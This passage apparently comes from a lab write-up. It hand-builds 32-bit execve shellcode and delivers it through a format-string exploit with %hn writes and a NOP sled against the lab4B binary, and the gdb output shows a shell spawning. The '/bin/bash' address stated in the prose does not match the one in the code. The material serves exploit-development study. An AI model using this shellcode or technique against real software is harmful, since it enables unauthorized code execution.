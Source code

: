 We do have a reference of **/bin/bash** at the `0xbffff8b4` address. Now, we can write an alternative version of this shellcode.

```nasm
global _start
_start:
xor    eax,eax ; EAX = 0
mov    ebx, 0xb7f83a24 ; pointer to '/bin/bash'
mov    ecx, ecx
mov    edx, ecx
mov    al, 0xb
int    0x80
```

Assemble the code:

```shell
$ nano shellcode.asm
$ nasm -f elf32 shellcode.asm
```

Then, let's check the result.

```nasm
$ objdump -M intel -d shellcode.o

shellcode.o:     file format elf32-i386

Disassembly of section .text:

00000000 <_start>:
   0:   31 c0                   xor    eax,eax
   2:   bb 24 3a f8 b7          mov    ebx,0xb7f83a24
   7:   89 c9                   mov    ecx,ecx
   9:   89 ca                   mov    edx,ecx
   b:   b0 0b                   mov    al,0xb
   d:   cd 80                   int    0x80
```

Awesome, no *badchars*. Here is our little shellcode:

- `\x31\xc0\xbb\x24\x3a\xf8\xb7\x89\xc9\x89\xca\xb0\x0b\xcd\x80`

If we add a NOP-sled and our shellcode right after the first part of the exploit, we should get a shell.

```nasm
gdb-peda$ r < <(python -c 'print("\xba\x99\x04\x08" + "\xb8\x99\x04\x08" + "%49143x" + "%6$hn" + "%13937x" + "%7$hn" + 32 * "\x90" + "\x31\xc0\xbb\x24\x3a\xf8\xb7\x89\xc9\x89\xca\xb0\x0b\xcd\x80")')
Starting program: /levels/lab04/lab4B < <(python -c 'print("\xba\x99\x04\x08" + "\xb8\x99\x04\x08" + "%49143x" + "%6$hn" + "%13937x" + "%7$hn" + 32 * "\x90" + "\x31\xc0\xbb\x24\x3a\xf8\xb7\x89\xc9\x89\xca\xb0\x0b\xcd\x80")')
��

...[snip]...

process 2775 is executing new program: /bin/dash
[Inferior 1 (process 2775) exited normally]
Warning: not running or target is remote
```
